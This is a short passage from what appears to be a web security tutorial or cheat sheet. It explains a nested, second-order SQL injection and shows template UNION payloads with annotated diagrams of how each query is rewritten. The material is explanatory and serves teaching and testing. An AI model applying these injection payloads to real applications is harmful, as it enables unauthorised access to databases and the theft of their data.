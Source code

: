   **Example:**  
  The base of the payload (what you inject in the first query):

  ```text
  ' AND 1 = 2 UNION SELECT "PAYLOAD" -- -
  ```

  The `PAYLOAD` is what you want to inject in the _second query_:
  
  ```text
  ' AND 1=2 UNION SELECT ...
  ```

  The final payload (after replacing the `PAYLOAD`):

  ```text
  ' AND 1 = 2 UNION SELECT "' AND 1=2 UNION SELECT ..." -- -
                            \________________________/
                                        ||
                                        \/
                                 the payload that
                                  get's injected
                               into the second query
  \________________________________________________________/
                              ||
                              \/
   the actual query we inject into the vulnerable parameter
  ```

  The first query after injection:

  ```text
  SELECT               --\
    id                    |
  FROM                    |----> first query
    products              |
  WHERE                   |
    name = 'abcd'      --/
    AND 1 = 2                                 --\
  UNION                                          |----> injected payload (what gets injected into the second payload)
  SELECT                                         |
    "' AND 1=2 UNION SELECT ... -- -" -- -'   --/
  ```

  The second query after injection:

  ```text
  SELECT            --\
    comments           |
  FROM                 |----> second query
    products           |
  WHERE                |
    id = ''         --/
    AND 1 = 2         --\ 
  UNION                  |----> injected payload (the final UNION query that controls the returned data)
  SELECT ... -- -'    --/
  ```
